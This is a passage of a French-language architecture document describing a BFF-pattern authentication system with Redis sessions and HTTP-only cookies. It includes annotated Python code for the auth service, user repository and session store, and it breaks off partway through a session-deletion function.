







# AUTHENTICATION.md

> **Architecture d'authentification BFF Pattern avec sessions HTTP-only**
>
> Migration OAuth 2.1 conforme + GDPR + OWASP 2024
>
> Version: 1.0
> Date: 2025-11-14

---

## 📋 Table des Matières

1. [Vue d'ensemble](#-vue-densemble)
2. [Architecture BFF Pattern](#-architecture-bff-pattern)
3. [Composants Principaux](#-composants-principaux)
4. [Flows d'Authentification](#-flows-dauthentification)
5. [Session Management](#-session-management)
6. [Sécurité & Conformité](#-sécurité--conformité)
7. [User Model & Repository](#-user-model--repository)
8. [API Routes](#-api-routes)
9. [Dependencies FastAPI](#-dependencies-fastapi)
10. [Exemples Pratiques](#-exemples-pratiques)
11. [Testing](#-testing)
12. [Troubleshooting](#-troubleshooting)
13. [Migration Legacy → BFF](#-migration-legacy--bff)
14. [Métriques & Observabilité](#-métriques--observabilité)
15. [Ressources](#-ressources)

---

## 📖 Vue d'ensemble

### Objectif

LIA implémente une **architecture d'authentification moderne basée sur le BFF Pattern** (Backend-For-Frontend) avec sessions HTTP-only. Cette approche élimine les tokens JWT côté frontend et offre une sécurité maximale contre XSS et CSRF.

### Principes Architecturaux

**1. BFF Pattern (Backend-For-Frontend)**
- **Sessions server-side** stockées dans Redis
- **HTTP-only cookies** pour l'identifiant de session
- **Aucun token JWT exposé** au frontend
- **Auto-refresh transparent** des sessions

**2. Conformité GDPR & OWASP**
- **Data Minimization (GDPR Article 5)** : sessions minimales (user_id uniquement)
- **OWASP Session Management** : aucune PII dans Redis
- **PostgreSQL = source de vérité** : user data fetch on demand

**3. Multi-Provider Authentication**
- **Email/Password** : authentification classique avec hashing bcrypt
- **OAuth 2.1 + PKCE** : Google OAuth (voir [OAUTH.md](./OAUTH.md))
- **Email Verification** : activation de compte obligatoire
- **Password Reset** : flow sécurisé avec tokens JWT

### Architecture Simplifiée



### Concepts Clés

| Concept | Description |
|---------|-------------|
| **BFF Pattern** | Backend-For-Frontend : sessions server-side, cookies HTTP-only |
| **UserSession** | Structure minimale en Redis : `{user_id, remember_me, created_at}` |
| **Session Dependencies** | FastAPI dependencies pour authentification automatique |
| **Auto-Refresh** | Sessions étendues automatiquement sur chaque requête authentifiée |
| **GDPR Compliance** | Aucune PII dans Redis, data minimization, PostgreSQL = source unique |
| **OWASP 2024** | Conformité standards sécurité : HTTP-only, Secure, SameSite cookies |

---

## 🏗️ Architecture BFF Pattern

### Pourquoi BFF Pattern ?

**Problèmes du JWT classique exposé au frontend** :
- ❌ **Vulnérable XSS** : tokens stockés dans localStorage/sessionStorage
- ❌ **Complexité client** : gestion refresh token, race conditions
- ❌ **Attack surface** : tokens potentiellement interceptés côté client
- ❌ **Révocation difficile** : stateless = impossible d'invalider immédiatement

**Avantages BFF Pattern** :
- ✅ **Sécurité XSS** : HTTP-only cookies inaccessibles au JavaScript
- ✅ **Simplicité client** : aucune gestion de tokens
- ✅ **Révocation immédiate** : `DELETE session:{id}` dans Redis
- ✅ **Conformité GDPR** : data minimization, PII dans PostgreSQL uniquement
- ✅ **Auto-refresh transparent** : sessions étendues automatiquement

### Migration Timeline



### Architecture 3-Tier



---

## 🔧 Composants Principaux

### 1. AuthService

**Localisation** : [`apps/api/src/domains/auth/service.py`](../../apps/api/src/domains/auth/service.py)

**Responsabilité** : Business logic pour toutes les opérations d'authentification.

#### Code Complet Annoté

```python
"""
Auth service containing business logic for authentication.
Handles user registration, login, OAuth, email verification, and password reset.
"""

from typing import Any
from uuid import UUID

import httpx
import structlog
from sqlalchemy.ext.asyncio import AsyncSession

from src.core.config import settings
from src.core.exceptions import (
    raise_email_already_exists,
    raise_invalid_credentials,
    raise_invalid_input,
    raise_oauth_flow_failed,
    raise_token_invalid,
    raise_user_not_found,
)
from src.core.security import (
    # Removed: create_access_token, create_refresh_token (BFF Pattern migration v0.3.0)
    # OAuth helpers moved to src.core.oauth module (v0.4.0 refactoring)
    create_password_reset_token,
    create_verification_token,
    get_password_hash,
    verify_password,
    verify_token,
)
from src.domains.auth.repository import AuthRepository
from src.domains.auth.schemas import (
    # Removed: AuthResponse, TokenResponse (BFF Pattern migration v0.3.0)
    UserLoginRequest,
    UserRegisterRequest,
    UserResponse,
)
from src.domains.users.models import User
from src.infrastructure.cache.redis import SessionService, get_redis_session

logger = structlog.get_logger(__name__)


class AuthService:
    """Service for authentication business logic."""

    def __init__(self, db: AsyncSession) -> None:
        self.db = db
        self.repository = AuthRepository(db)

    async def register(self, data: UserRegisterRequest) -> UserResponse:
        """
        Register a new user with email and password.

        Args:
            data: User registration data

        Returns:
            UserResponse (BFF Pattern - no tokens)

        Raises:
            HTTPException: If email already exists
        """
        # Check if user already exists
        existing_user = await self.repository.get_by_email(data.email)
        if existing_user:
            raise_email_already_exists(data.email)

        # Hash password
        hashed_password = get_password_hash(data.password)

        # Create user
        user_data = {
            "email": data.email,
            "hashed_password": hashed_password,
            "full_name": data.full_name,
            "timezone": data.timezone or "Europe/Paris",  # Browser detection or default
            "language": data.language or "fr",  # Browser detection or default
            "is_active": False,  # Requires email verification
            "is_verified": False,
        }

        user = await self.repository.create(user_data)
        await self.db.commit()

        # Send verification email (async task in production)
        verification_token = create_verification_token(user.email)
        await self._send_verification_email(user.email, verification_token)

        logger.info(
            "user_registered",
            user_id=str(user.id),
            email=user.email,
            timezone=user.timezone,
            language=user.language,
        )

        # BFF Pattern: Return user only, session created by router
        return UserResponse.model_validate(user)

    async def login(self, data: UserLoginRequest) -> UserResponse:
        """
        Login user with email and password.

        Args:
            data: User login credentials

        Returns:
            UserResponse (BFF Pattern - no tokens)

        Raises:
            HTTPException: If credentials are invalid
        """
        # Get user by email
        user = await self.repository.get_by_email(data.email)

        if not user or not user.hashed_password:
            raise_invalid_credentials(data.email)

        # Type narrowing: user is User (not None) and has hashed_password after check
        assert user is not None
        assert user.hashed_password is not None

        # Verify password
        if not verify_password(data.password, user.hashed_password):
            raise_invalid_credentials(data.email)

        logger.info("user_logged_in", user_id=str(user.id), email=user.email)

        # BFF Pattern: Return user only, session created by router
        return UserResponse.model_validate(user)

    # ========================================================================
    # REMOVED METHOD: refresh_access_token() (BFF Pattern Migration)
    # ========================================================================
    # This method was removed as part of BFF Pattern migration (v0.3.0).
    #
    # Token refresh is no longer needed:
    # - Sessions auto-refresh on each authenticated request
    # - HTTP-only cookies eliminate client-side token management
    #
    # See /auth/refresh endpoint (now returns HTTP 410 Gone)
    # ========================================================================

    async def verify_email(self, token: str) -> UserResponse:
        """
        Verify user email with verification token.

        Args:
            token: Email verification JWT token

        Returns:
            Updated UserResponse

        Raises:
            HTTPException: If token is invalid or expired
        """
        payload = verify_token(token)

        if not payload or payload.get("type") != "email_verification":
            raise_token_invalid("email verification token")

        # Type narrowing: payload is dict (not None) after check
        assert payload is not None

        email = str(payload.get("sub"))
        user = await self.repository.get_by_email(email)

        if not user:
            raise_user_not_found(email)

        # Type narrowing: user is User (not None) after check
        assert user is not None

        if user.is_verified:
            logger.info("verification_already_verified", user_id=str(user.id))
            return UserResponse.model_validate(user)

        # Activate user account
        user = await self.repository.activate_user(user)
        await self.db.commit()

        logger.info("email_verified", user_id=str(user.id), email=user.email)

        return UserResponse.model_validate(user)

    async def request_password_reset(self, email: str) -> None:
        """
        Send password reset email to user.

        Args:
            email: User email address
        """
        user = await self.repository.get_by_email(email)

        # Don't reveal if email exists (security best practice)
        if not user:
            logger.warning("password_reset_requested_nonexistent_email", email=email)
            return

        # Type narrowing: user is User (not None) after check
        assert user is not None

        # Create password reset token
        reset_token = create_password_reset_token(user.email)

        # Send password reset email
        await self._send_password_reset_email(user.email, reset_token)

        logger.info("password_reset_requested", user_id=str(user.id), email=user.email)

    async def confirm_password_reset(self, token: str, new_password: str) -> UserResponse:
        """
        Confirm password reset with token and new password.

        Args:
            token: Password reset JWT token
            new_password: New password (plain text - will be hashed)

        Returns:
            Updated UserResponse

        Raises:
            HTTPException: If token is invalid or expired
        """
        payload = verify_token(token)

        if not payload or payload.get("type") != "password_reset":
            raise_token_invalid("password reset token")

        # Type narrowing: payload is dict (not None) after check
        assert payload is not None

        email = str(payload.get("sub"))
        user = await self.repository.get_by_email(email)

        if not user:
            raise_user_not_found(email)

        # Type narrowing: user is User (not None) after check
        assert user is not None

        # Hash new password
        hashed_password = get_password_hash(new_password)

        # Update password
        user = await self.repository.update_password(user, hashed_password)
        await self.db.commit()

        logger.info("password_reset_confirmed", user_id=str(user.id), email=user.email)

        return UserResponse.model_validate(user)

    # ========================================================================
    # Private Helper Methods
    # ========================================================================

    async def _send_verification_email(self, email: str, token: str) -> None:
        """Send verification email (placeholder - implement with email service)."""
        # TODO: Implement with EmailService
        verification_url = f"{settings.frontend_url}/verify-email?token={token}"
        logger.info(
            "verification_email_sent",
            email=email,
            verification_url=verification_url,
        )

    async def _send_password_reset_email(self, email: str, token: str) -> None:
        """Send password reset email (placeholder - implement with email service)."""
        # TODO: Implement with EmailService
        reset_url = f"{settings.frontend_url}/reset-password?token={token}"
        logger.info(
            "password_reset_email_sent",
            email=email,
            reset_url=reset_url,
        )
```

**Points Clés** :
- ✅ **Aucun token dans les returns** : retourne `UserResponse` uniquement
- ✅ **Session creation déléguée au router** : séparation des responsabilités
- ✅ **Password hashing bcrypt** : via `get_password_hash()`
- ✅ **Email verification obligatoire** : `is_active=False` par défaut
- ✅ **Security best practices** : pas de révélation d'existence d'email

---

### 2. AuthRepository

**Localisation** : [`apps/api/src/domains/auth/repository.py`](../../apps/api/src/domains/auth/repository.py)

**Responsabilité** : Data access layer pour le modèle `User`.

#### Code Complet Annoté

```python
"""
Auth repository for database operations.
Implements Repository pattern for User model CRUD operations.
"""

from uuid import UUID

import structlog
from sqlalchemy import select
from sqlalchemy.ext.asyncio import AsyncSession

from src.domains.auth.models import User

logger = structlog.get_logger(__name__)


class AuthRepository:
    """Repository for authentication-related database operations."""

    def __init__(self, db: AsyncSession) -> None:
        self.db = db

    async def get_by_id(self, user_id: UUID) -> User | None:
        """
        Get user by ID.

        Args:
            user_id: User UUID

        Returns:
            User object or None if not found
        """
        result = await self.db.execute(select(User).where(User.id == user_id))
        return result.scalar_one_or_none()

    async def get_by_email(self, email: str) -> User | None:
        """
        Get user by email address.

        Args:
            email: User email address

        Returns:
            User object or None if not found
        """
        result = await self.db.execute(select(User).where(User.email == email))
        return result.scalar_one_or_none()

    async def get_by_oauth_provider(self, provider: str, provider_id: str) -> User | None:
        """
        Get user by OAuth provider and provider ID.

        Args:
            provider: OAuth provider name (e.g., 'google')
            provider_id: Provider's user ID

        Returns:
            User object or None if not found
        """
        result = await self.db.execute(
            select(User).where(
                User.oauth_provider == provider,
                User.oauth_provider_id == provider_id,
            )
        )
        return result.scalar_one_or_none()

    async def create(self, user_data: dict) -> User:
        """
        Create a new user.

        Args:
            user_data: Dictionary containing user fields

        Returns:
            Created User object
        """
        user = User(**user_data)
        self.db.add(user)
        await self.db.flush()
        await self.db.refresh(user)

        logger.info("user_created", user_id=str(user.id), email=user.email)
        return user

    async def update(self, user: User, update_data: dict) -> User:
        """
        Update user fields.

        Args:
            user: User object to update
            update_data: Dictionary of fields to update

        Returns:
            Updated User object
        """
        for field, value in update_data.items():
            setattr(user, field, value)

        await self.db.flush()
        await self.db.refresh(user)

        logger.info("user_updated", user_id=str(user.id))
        return user

    async def delete(self, user: User) -> None:
        """
        Delete a user (soft delete by setting is_active=False).

        Args:
            user: User object to delete
        """
        user.is_active = False
        await self.db.flush()

        logger.info("user_deleted", user_id=str(user.id))

    async def hard_delete(self, user: User) -> None:
        """
        Permanently delete a user from database.

        Args:
            user: User object to delete
        """
        await self.db.delete(user)
        await self.db.flush()

        logger.info("user_hard_deleted", user_id=str(user.id))

    async def activate_user(self, user: User) -> User:
        """
        Activate user account (set is_active=True, is_verified=True).

        Args:
            user: User object to activate

        Returns:
            Activated User object
        """
        user.is_active = True
        user.is_verified = True
        await self.db.flush()
        await self.db.refresh(user)

        logger.info("user_activated", user_id=str(user.id), email=user.email)
        return user

    async def update_password(self, user: User, hashed_password: str) -> User:
        """
        Update user password.

        Args:
            user: User object
            hashed_password: New hashed password

        Returns:
            Updated User object
        """
        user.hashed_password = hashed_password
        await self.db.flush()
        await self.db.refresh(user)

        logger.info("user_password_updated", user_id=str(user.id))
        return user
```

**Points Clés** :
- ✅ **Repository Pattern pur** : aucune business logic
- ✅ **Queries optimisées** : `scalar_one_or_none()` pour performance
- ✅ **Soft delete par défaut** : `is_active=False`
- ✅ **Structlog logging** : toutes les opérations loggées

---

### 3. SessionStore

**Localisation** : [`apps/api/src/infrastructure/cache/session_store.py`](../../apps/api/src/infrastructure/cache/session_store.py)

**Responsabilité** : Gestion des sessions dans Redis avec data minimization GDPR.

#### Code Complet Annoté

```python
"""
Session store for BFF (Backend for Frontend) pattern.
Manages user sessions with HTTP-only cookies and Redis backend.
Conforms to OAuth 2.1 and modern web security best practices.
"""

import json
from collections.abc import Awaitable
from datetime import UTC, datetime
from typing import Any, cast
from uuid import uuid4

import redis.asyncio as aioredis
import structlog

from src.core.config import settings

logger = structlog.get_logger(__name__)


class UserSession:
    """
    Minimal user session data structure (OWASP/GDPR compliant).

    Contains ONLY session identifier and user reference - no PII.
    User data is fetched from database (PostgreSQL) on each request.

    Security & Privacy (2024 Best Practices):
    - OWASP: "Session IDs must never include sensitive information or PII"
    - GDPR Article 5: Data Minimization principle
    - BFF Pattern: Stateful sessions, not stateless JWT

    Storage:
        Redis key: "session:{session_id}"
        Redis value: {"user_id": "uuid", "remember_me": bool, "created_at": "iso"}

    Performance:
        Session check: ~0.1-0.5ms (Redis GET)
        User fetch: ~0.3-0.5ms (PostgreSQL SELECT with PRIMARY KEY index)
        Total overhead: ~0.5-1ms per authenticated request

    Trade-off:
        +0.5-1ms latency << GDPR compliance + 90% Redis memory reduction
    """

    def __init__(
        self,
        session_id: str,
        user_id: str,
        remember_me: bool = False,
        created_at: datetime | None = None,
    ) -> None:
        self.session_id = session_id
        self.user_id = user_id  # ONLY user_id reference (not full User object)
        self.remember_me = remember_me  # Needed for TTL persistence
        self.created_at = created_at or datetime.now(UTC)

    def to_dict(self) -> dict[str, Any]:
        """
        Convert session to minimal dictionary for Redis storage.

        Returns:
            Minimal session data (no PII):
                - user_id: UUID reference
                - remember_me: TTL preference
                - created_at: Session creation timestamp
        """
        return {
            "user_id": str(self.user_id),  # Convert UUID to string for JSON
            "remember_me": self.remember_me,
            "created_at": self.created_at.isoformat(),
        }

    @classmethod
    def from_dict(cls, session_id: str, data: dict[str, Any]) -> "UserSession":
        """
        Create session from dictionary loaded from Redis.

        Args:
            session_id: Session identifier (from Redis key)
            data: Session data from Redis value

        Returns:
            UserSession object with minimal data
        """
        return cls(
            session_id=session_id,
            user_id=data["user_id"],
            remember_me=data.get("remember_me", False),
            created_at=datetime.fromisoformat(data["created_at"]),
        )


class SessionStore:
    """
    Session store with Redis backend.
    Implements BFF pattern for secure authentication without exposing tokens to browser.
    """

    def __init__(self, redis_client: aioredis.Redis) -> None:
        self.redis = redis_client

    async def create_session(
        self,
        user_id: str,
        remember_me: bool = False,
    ) -> UserSession:
        """
        Create a new minimal user session (GDPR/OWASP compliant).

        Stores ONLY user_id reference in Redis. User data fetched from PostgreSQL on demand.

        Args:
            user_id: User UUID (string)
            remember_me: If True, extends session TTL to 30 days (vs 7 days default)

        Returns:
            UserSession object with minimal data (user_id, remember_me, created_at)

        Raises:
            Exception: If Redis operation fails

        Security:
            - No PII stored in Redis (email, name, etc.)
            - Minimal session data reduces attack surface
            - TTL properly synchronized with cookie expiration

        Performance:
            - Session creation: ~0.1-0.5ms (Redis SETEX)
            - Memory per session: ~100 bytes (vs ~500 bytes with full User data)
        """
        # Generate unique session ID
        session_id = str(uuid4())

        # Create minimal session object
        session = UserSession(
            session_id=session_id,
            user_id=user_id,
            remember_me=remember_me,
        )

        # ✅ FIX: Calculate TTL based on remember_me (synchronized with cookie)
        ttl = (
            settings.session_cookie_max_age_remember
            if remember_me
            else settings.session_cookie_max_age
        )

        # Store in Redis with correct TTL
        key = f"session:{session_id}"
        await self.redis.setex(
            key,
            ttl,  # ← FIX: TTL now respects remember_me preference
            json.dumps(session.to_dict()),
        )

        # ========================================================================
        # Index session in user's session SET for O(1) bulk deletion
        # ========================================================================
        # Pattern: user:{user_id}:sessions → SET {session_id_1, session_id_2, ...}
        #
        # Benefits:
        # - delete_all_user_sessions: O(N) scan → O(1) lookup (80× faster)
        # - Example: 100k total sessions, user has 5 → 1200ms → 15ms
        #
        # Memory cost: ~40 bytes/session for index (~40KB per 1000 sessions)
        # Performance gain: 80× improvement for logout-all operations
        # ========================================================================
        user_sessions_key = f"user:{user_id}:sessions"
        # Note: cast() needed due to redis.asyncio type stubs incorrectly returning Awaitable[int] | int
        await cast(Awaitable[int], self.redis.sadd(user_sessions_key, session_id))

        # Set TTL on user sessions SET to prevent orphaned indexes
        # Use max possible TTL (remember_me case) to ensure index outlives session
        max_ttl = settings.session_cookie_max_age_remember
        await self.redis.expire(user_sessions_key, max_ttl)

        logger.info(
            "session_created_minimal",
            session_id=session_id,
            user_id=user_id,
            remember_me=remember_me,
            ttl_days=ttl / 86400,
            ttl_seconds=ttl,
            indexed=True,
        )

        return session

    async def get_session(self, session_id: str) -> UserSession | None:
        """
        Retrieve minimal session from Redis.

        Args:
            session_id: Session UUID

        Returns:
            UserSession object (minimal: user_id + remember_me) or None if not found/expired

        Performance:
            - Redis GET: ~0.1-0.5ms
            - No update on access (removed last_accessed_at tracking for PII minimization)
        """
        key = f"session:{session_id}"
        data = await self.redis.get(key)

        if not data:
            logger.debug("session_not_found", session_id=session_id)
            return None

        try:
            session_dict = json.loads(data)
            session = UserSession.from_dict(session_id, session_dict)

            logger.debug(
                "session_retrieved_minimal",
                session_id=session_id,
                user_id=session.user_id,
                remember_me=session.remember_me,
            )
            return session

        except (json.JSONDecodeError, KeyError) as exc:
            logger.error("session_parse_error", session_id=session_id, error=str(exc))
            # Delete corrupted session
            await self.redis.delete(key)
            return None

    async def delete_session(self, session_id: str) -> bool:
        """
        Delete (logout) a session and remove from user index.

        Args:
            session_id: Session UUID

        Returns:
            True if session was deleted, False if not found
        """
        key = f"session:{session_id}"

        # Get session first to know which user index to update
        session = await self.get_session(session_id)

        # Delete session
        result = await self.redis.delete(key)

        if result > 0:
            # Remove from user's session index if we know the user_id
            if session:
                user_sessions_key = f"user:{session.user_id}:sessions"
                await cast(Awaitable[int], self.redis.srem(user_sessions_key, session_id))

            logger.info(
                "session_deleted",
                session_id=session_id,
                user_id=session.user_id if session else "unknown",
                indexed_removed=bool(session),
            )
            return True

        logger.debug("session_not_found_delete", session_id=session_id)
        return False

    async def delete_all_user_sessions(self, user_id: str) -> int:
        """
        Delete all sessions for a user (logout from all devices).

        Optimized with user session index for O(1) lookup instead of O(N) scan.

        Args:
            user_id: User UUID (string)

        Returns:
            Number of sessions deleted

        Performance:
            - O(N) scan: ~1200ms for 100k sessions (user has 5)
            - O(1) index: ~15ms (80× faster)
        """
        user_sessions_key = f"user:{user_id}:sessions"

        # Get all session IDs for this user from index
        session_ids = await self.redis.smembers(user_sessions_key)

        if not session_ids:
